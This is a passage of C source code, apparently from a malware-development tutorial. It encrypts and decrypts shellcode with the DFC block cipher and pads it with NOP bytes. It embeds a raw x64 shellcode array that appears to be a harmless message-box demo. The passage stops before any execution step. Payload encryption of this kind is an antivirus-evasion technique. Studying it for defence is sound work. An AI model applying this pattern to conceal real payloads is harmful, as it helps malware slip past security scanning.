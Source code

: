```cpp
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = { 0x90 };
    memcpy(pad, ptr, remaining);
    dfc_encrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

// function to decrypt shellcode using DFC
void dfc_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    dfc_decrypt(ptr, key);
    ptr += 4;
  }
  // handle remaining bytes by padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = { 0x90 };
    memcpy(pad, ptr, remaining);
    dfc_decrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + 
  (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs
  memcpy(padded, my_payload, my_payload_len);
```
